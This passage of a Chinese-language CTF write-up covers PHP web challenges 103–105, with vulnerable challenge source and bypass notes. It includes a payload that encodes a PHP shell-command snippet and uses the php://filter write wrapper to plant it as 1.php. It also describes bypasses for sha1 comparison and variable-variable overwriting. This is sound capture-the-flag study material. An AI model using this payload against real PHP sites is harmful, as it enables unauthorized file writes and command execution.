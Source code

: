 ```php
$a="xxx";
$b=base64_encode($a);
$c=bin2hex($b);
如果$c全部都是纯数字就可以了。
1234
```

这里直接借用其他师傅的payload

```php
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
输出   5044383959474e6864434171594473

带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。
1234567
```

最终payload：`v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin`



## 104

```php
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
?> 
```

sha1碰撞，使用数组

## 105

```php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
```